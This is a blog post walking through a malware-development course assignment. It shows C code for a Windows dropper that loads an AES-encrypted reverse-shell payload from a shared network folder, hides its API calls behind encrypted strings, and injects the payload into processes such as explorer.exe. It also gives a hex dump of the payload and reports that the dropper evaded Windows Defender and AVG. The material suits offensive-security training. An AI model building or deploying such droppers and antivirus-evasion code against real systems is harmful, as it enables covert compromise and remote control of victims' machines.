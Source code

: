 ```yaml
---
layout: single
title: AV Evasion - Sharing is (s)caring
date: 2020-10-02
classes: wide
header:
  teaser: /assets/images/AV_evasion/DbP5UbHXUAAzcVm.jpg
tags:
  - Pentester
  - Windows
  - Reverse shell
  - AV Evasion
  - Kitties
--- 
```

![](/assets/images/AV_evasion/DbP5UbHXUAAzcVm.jpg)<br>

## Introduction
Hello hackers and welcome back to the 3rd and last assignment of the well done course on Malware Development by [Sektor7](https://institute.sektor7.net/red-team-operator-malware-development-essentials), in the previous [blog post](https://blackcloud.me/the-payload-is-behind-kitties/) we saw PE injection using a payload hidden inside an image, implemented the dropper with the capacity of extraction of the payload and injecting it in the PE process target. The last assignmet ask us to encrypt a payload, load it on the file system or in our case in shared folder on the target OS, and write a dropper that open the payload and trigger the injection. The suggestions from reenz0h here are to use the [CreateFileA](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea) and [ReadFile](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-readfile) WinAPI functions.

## The Assignment
Let's start taking our last dropper and check what we have and what we must change.<br>
The most of the code is working pretty well as we saw, but the payload extraction has to be changed because now reenz0h asked to open the payload from a directory on the fiule system, we choosed a network sherd folder, so take a look closer to the payload memory loading and analyze what we have to change.

## The Payload
In the previous posts we already prepared and encrypted the payload that was implemented as a resource or hidden behind an image, so there isn't much work here. The AES256 encrypted payload is the same used in the last post so a simple Win64 reverse shell

Let's check the payload with ```xxd```
```bash
xxd -g1 payload_enc
00000000: 4d 37 18 fc 9d 9a ac 18 47 a6 fc 63 96 fc df 01  M7......G..c....
00000010: 1b 24 25 c0 7f 11 c6 5b 9a 8f b6 c3 1b e3 de 01  .$%....[........
00000020: 9a e3 de 83 1b e0 82 dc 60 9d 90 f8 b9 53 c9 78  ........`....S.x
00000030: 35 a3 92 1e 74 65 04 71 2f 9f e3 37 47 1a b9 3a  5...te.q/..7G..:
00000040: 55 60 f3 78 c0 64 1d ef 60 81 79 19 8e e2 44 3e  U`.x.d..`.y...D>
00000050: 06 1c 01 0c 35 8a 28 f3 38 cf 13 0e 07 05 ff 37  ....5.(.8......7
00000060: 39 98 52 b4 45 65 46 27 47 4d 1a 5d 7a 1e e3 4e  9.R.EeF'GM.]z..N
00000070: 2c 0b be e1 01 78 99 48 30 c3 01 cc e4 12 49 96  ,....x.H0.....I.
00000080: c0 d8 0d 1d 5d 0b 14 6a 64 b7 04 ae 34 6c 27 4f  ....]..jd...4l'O
00000090: 9e ef c9 58 15 86 31 57 a9 1b 8f 7c 9b 69 73 7d  ...X..1W...|.is}
000000a0: ba 53 93 34 1d db c0 c4 d9 be 2a 47 0c 63 56 0d  .S.4......*G.cV.
000000b0: 43 9d 27 fd 12 1c 11 61 ae f5 b8 d7 eb f2 ad 67  C.'....a.......g
000000c0: 25 1b f9 ef 24 4b 6c ed 04 63 ea 68 92 63 ee 75  %...$Kl..c.h.c.u
000000d0: 48 65 40 c3 50 f2 d2 88 8c 43 51 1c ea 82 67 9d  He@.P....CQ...g.
000000e0: 32 4f 13 f9 ba df da 0e dc e6 0a 69 8d 87 98 9a  2O.........i....
000000f0: df a4 41 60 a0 1b f6 85 e2 57 3c 57 d2 b6 06 b5  ..A`.....W<W....
00000100: 41 40 24 c9 2d f1 68 c4 57 6e c4 4d 43 18 e5 4f  A@$.-.h.Wn.MC..O
00000110: 09 0c 89 ff c2 d0 4a bc 55 b6 50 3a b4 53 dd 69  ......J.U.P:.S.i
00000120: 62 2d c2 89 d1 a9 11 c3 d2 57 63 ed 7f 31 e3 41  b-.......Wc..1.A
00000130: fb 91 08 1e 9e d7 94 17 58 4c 7b 0d 79 ee 9b fe  ........XL{.y...
00000140: 5f 59 b7 f3 bb 61 fb 0e eb 45 da 6c b5 9e e5 f9  _Y...a...E.l....
00000150: 65 fb 18 7f a0 9a d3 7d 63 76 79 a2 01 ea 1a f8  e......}cvy.....
00000160: dd 54 cf 64 bc 8c b2 d2 26 04 b9 d4 6d 97 78 88  .T.d....&...m.x.
00000170: 79 d8 e7 50 2a 21 18 4f 1a e3 b4 9d ec c4 de 11  y..P*!.O........
00000180: 6d 8d fc 05 d2 a1 42 ff 6b ad 75 67 16 26 93 66  m.....B.k.ug.&.f
00000190: 55 76 86 eb 4c c7 45 c1 a1 3b f5 12 a6 5a 6a 01  Uv..L.E..;...Zj.
000001a0: fe 31 13 10 77 1b cd 47 dd d8 c2 8a cc 90 ca b5  .1..w..G........
000001b0: b2 64 40 d6 0a 73 66 76 95 08 1c cc b6 f7 6f 9c  .d@..sfv......o.
000001c0: 04 46 10 53 9e 1f 09 bc 95 cf 25 70 e1 38 0b 9c  .F.S......%p.8..
```
Now we must mount the folder where the payload is, in the target OS as a shared folder. 

## The Dropper
First thing first we define the size of our buffer
```c
  #define BUFFSIZE 512
```
Next we have to define the elements needed to call the ```CreateFileA``` and ```ReadFile``` functions in the encrypted way.<br>
The first elements are the pointers.
```c
  HANDLE (WINAPI * pCreateFileA)(
    LPCSTR                lpFileName,
    DWORD                 dwDesiredAccess,
    DWORD                 dwShareMode,
    LPSECURITY_ATTRIBUTES lpSecurityAttributes,
    DWORD                 dwCreationDisposition,
    DWORD                 dwFlagsAndAttributes,
    HANDLE                hTemplateFile
  );

  BOOL (WINAPI * pReadFile)(
    HANDLE       hFile,
    LPVOID       lpBuffer,
    DWORD        nNumberOfBytesToRead,
    LPDWORD      lpNumberOfBytesRead,
    LPOVERLAPPED lpOverlapped
  );

```
Then the encrypted strings,
```c
  unsigned char sCreateFileA[] = { ... };
  unsigned char sReadFile[] = { ... };
```
the strings decryption  
```c
  AESDecrypt((char *) sCreateFileA, sizeof(sCreateFileA), key, sizeof(key));
  AESDecrypt((char *) sReadFile, sizeof(sReadFile), key, sizeof(key));
```
and the address assignment to the function pointers.
```c
  pCreateFileA = GetProcAddress(GetModuleHandle(sKernel), sCreateFileA);
  pReadFile = GetProcAddress(GetModuleHandle(sKernel), sReadFile);
```
Next we have to define the file ```HANDLE```, the shared path of the payload (we have to use the double backslash to avoid the escaping chars) and the payload pointer.

```c
  HANDLE hFile;
  char path[] = "\\\\tsclient\\share\\payload_enc";
  char* payload[BUFFSIZE] = {0};
```
Last but not least, as for the previous post, we must change the way the payload is loaded in memory.

```c
  // Load resources section
  res = pFindResourceA(NULL, MAKEINTRESOURCE(IMAGE), RT_RCDATA);
  resHandle = pLoadResource(NULL, res);
      
  // Extract payload from the image
  image = (char*)pLockResource(resHandle); // lock the resource and point to the first char of the jpg
  image_len = SizeofResource(NULL, res); // get the size of the jpg + p0 + last 7 bytes 
  
  end = image + image_len - 7; // jump to the end of the jpg and read the last 7 bytes that are the original size of the jpg without p0
  size = atoi(end); // cast from char to int, now size is the original size of the jpg
  offset = image + size; // offset points to the first char of the p0
  p0_len = image_len - size - 7; // calculate the payload size
  memcpy(p0, offset, p0_len); // copy in another memory area the effective p0

  // Allocate some memory buffer for p0
  exec_mem = pVirtualAlloc(0, p0_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // Copy p0 to new memory buffer
  pRtlMoveMemory(exec_mem, p0, p0_len);
```
In the code trunk below, referred to the dropper of the previous post, the payload is loaded from the resources and extracted from the image but now we have an encrypted file in a shared folder so we have to change the dropper like this

```c
  // Load the payload from FS to memory
  hFile = pCreateFileA(path, 
                      GENERIC_READ,
                      FILE_SHARE_READ, 
                      NULL, 
                      OPEN_EXISTING, 
                      FILE_ATTRIBUTE_NORMAL, 
                      NULL);
  
  if (hFile == INVALID_HANDLE_VALUE) {
    return 0;
  }

  if (FALSE == pReadFile(hFile, payload, (BUFFSIZE-1), NULL, NULL)) {
    return 0;
  }
  
  // Close the HANDLE
  pCloseHandle(hFile);
  
  payload_len = strlen(payload);
  
  // Allocate some memory buffer for payload
  exec_mem = pVirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // Copy payload to new memory buffer
  pRtlMoveMemory(exec_mem, payload, payload_len);
```
After opening the file with ```CreateFileA``` function we need to read it with ```ReadFile```, this function load the payload as binary stream in the ```payload``` pointer in memory. What we must do now is to calculate the payload lenght and move the payload to another RW memory buffer. After that we are ready to decrypt our payload and inject it in our PE target process.

## Tests
As in the previous post we tested the dropper on different process: ```explorer.exe```, ```notepad.exe``` and ```smartscreen.exe``` but in this case  the injection doesn't trigger Windows Defender nor AVG Free "only" on ```explorer.exe``` and ```smartscreen.exe```, AVG scan the dropper and let it execute the reverse shell payload maintaining the shell active. So, also in this case, we are following the TOON rule (Two is One and One is None) also in this case.  

![](/assets/images/AV_evasion/AVG_fs_bypass.gif)<br>

and [here](https://github.com/bolonobolo/av_evasion/tree/master/PE_Injection/Sharing%20is%20scaring/implant.cpp) you can find the dropper code. <br>
We hope you enjoied the ride on ```RedTeam Operator Malware Development Essentials``` walkthrough assignments.<br> 
Stay tuned for the ```Intermediate``` level posts :)

## References
Malware Dev Essentials Course
- [Sektor7](https://institute.sektor7.net/red-team-operator-malware-development-essentials)
- [reenz0h](https
://twitter.com/Sektor7Net) <br>

![](./asset/images/counter.svg)